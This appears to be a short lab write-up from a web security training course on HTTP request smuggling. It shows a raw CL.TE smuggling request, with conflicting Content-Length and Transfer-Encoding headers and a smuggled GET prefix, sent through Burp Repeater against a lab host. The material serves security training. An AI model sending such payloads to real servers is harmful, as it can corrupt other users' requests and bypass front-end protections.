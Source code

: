 # Some cases of HTTP request smuggling

## 1. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X```

The second request should receive an HTTP 404 response.

*Note

Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.
